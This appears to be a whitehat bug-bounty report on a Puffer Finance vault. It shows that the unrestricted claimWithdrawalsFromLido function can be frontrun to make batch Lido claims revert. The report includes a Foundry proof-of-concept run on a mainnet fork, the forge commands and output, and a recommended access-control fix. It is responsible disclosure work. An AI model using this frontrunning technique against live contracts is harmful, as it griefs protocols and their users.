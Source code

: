 # User can frontrun claim transaction to make claim failed if the protocol wants to claim multiple request Id in batch.
Submitted about 2 months ago by @ladboy233 (Whitehat) for Boost | Puffer Finance

Report ID: #28698

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Details
Description
https://etherscan.io/address/0x39ca0a6438b6050ea2ac909ba65920c7451305c1#code#F1#L106

```
  function claimWithdrawalsFromLido(uint256[] calldata requestIds) external virtual {
        VaultStorage storage $ = _getPufferVaultStorage();

        // Tell our receive() that we are doing a Lido claim
        $.isLidoWithdrawal = true;

        for (uint256 i = 0; i < requestIds.length; ++i) {
            bool isValidWithdrawal = $.lidoWithdrawals.remove(requestIds[i]);
            if (!isValidWithdrawal) {
                revert InvalidWithdrawal();
            }

            // slither-disable-next-line calls-loop
            _LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);
        }

        // Reset back the value
        $.isLidoWithdrawal = false;
        emit ClaimedWithdrawals(requestIds);
    }
```

Once the admin request the claim via LIDO withdrawal queue

anyone can call the function claimWithdrawalsFromLido and pass in an array of requests Ids to claim the ETH.

the code loops through the request Ids and call

`_LIDO_WITHDRAWAL_QUEUE.claimWithdrawal(requestIds[i]);`
one by one,

the problem is that suppose admin / protocol wants to withdraw using request Id [10000, 10001 and 10002]

malicious user can frontrun the claimWithdrawalsFromLido and calls the function with only the request Id [10000]

then when the admin's request execute, the whole transaction will revert because we cannot withdraw ETH using the request id 10000 twice.

the recommendation is adding access control to the function claimWithdrawalsFromLido

# Proof of concept

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface ILidoWithdrawalQueue {
    function requestWithdrawals(uint256[] calldata _amounts, address _owner)
        external
        returns (uint256[] memory requestIds);

    function claimWithdrawal(uint256 _requestId) external;
}


contract CounterTest is Test {

    function setUp() public {

    }

    function withdrawETH(uint256[] memory requestIds) public {

        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;
        
        vm.startPrank(user);

        for (uint256 i = 0; i < requestIds.length; i++) {
            ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);
            lido.claimWithdrawal(requestIds[i]);
        }

        vm.stopPrank();

    }

    function testWithdrawalRegular() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        withdrawETH(requestIds);

    }

    function testWithdrawalFrontrun() public {

        // block number 19290411
    
        address user = 0xE5350E927B904FdB4d2AF55C566E269BB3df1941;

        ILidoWithdrawalQueue lido = ILidoWithdrawalQueue(0x889edC2eDab5f40e902b864aD4d7AdE8E412F9B1);

        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);

    }
}
```

first we can run

`forge test -vvv --match-test "testWithdrawalRegular" --fork-url https://eth.llamarpc.com --fork-block-number 19290411`
and the output is

```
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/Counter.t.sol:CounterTest
[PASS] testWithdrawalRegular() (gas: 85592)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.00ms
```

that is fine, user wants to withdraw with request id 27139 and 27140

However, if we run

`forge test -vvv --match-test "testWithdrawalFrontrun" --fork-url https://eth.llamarpc.com --fork-block-number 19290411`
transaction revert, because before user withdraw with request id [27139, 27140]

user can frontrun and only withdraw [27139]

```
      uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 27139;
        requestIds[1] = 27140;
        
        uint256[] memory frontrunIds = new uint256[](1);
        frontrunIds[0] = 27139;

        withdrawETH(frontrunIds);

        withdrawETH(requestIds);
```
